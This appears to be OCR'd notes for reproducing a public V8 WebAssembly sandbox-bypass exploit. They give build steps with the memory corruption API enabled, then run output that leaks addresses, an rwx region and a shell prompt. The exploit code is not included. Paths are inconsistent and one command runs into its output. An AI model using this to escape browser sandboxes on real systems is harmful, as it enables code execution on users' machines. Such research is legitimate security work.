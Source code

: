 
Code from https://github.com/theori-io/v8-sbx-bypass-wasm/tree/main


system prep

        sudo apt update
        sudo apt -y upgrade
        sudo apt -y install git build-essential pkg-config

get google tools

        git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
        export PATH=~/depot_tools:$PATH

get source

        cd ~
        fetch v8
        mv v8 v8-11-4-0
        cd v8-11-4-0
        git checkout f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c
        gclient sync
        cd v8/src

configure for build

        gn args out/x64.release
        
                is_component_build = false
                is_debug = false
                target_cpu = "x64"
                v8_enable_sandbox = true
                use_goma = false
                v8_enable_backtrace = true
                v8_enable_disassembler = true
                v8_enable_object_print = true
                v8_enable_verify_heap = true
                dcheck_always_on = false
                v8_expose_memory_corruption_api = true

build
        autoninja -C out/x64.release

Run
        ~/v8-11-4-0/out/x64-release/d8 e[+] instance_addr = 0x19c3d8

                [+] tbl_addr = 0x4dc04
                [+] exported_func_addr = 0x19c55c
                [+] imported_function_targets = 0x4def1
                [+] rwx = 0x39e47ef46700
                [+] indirect_function_tables = 0x4df4d
                [+] indirect_function_table = 0x4df69
                $ 

Result


        
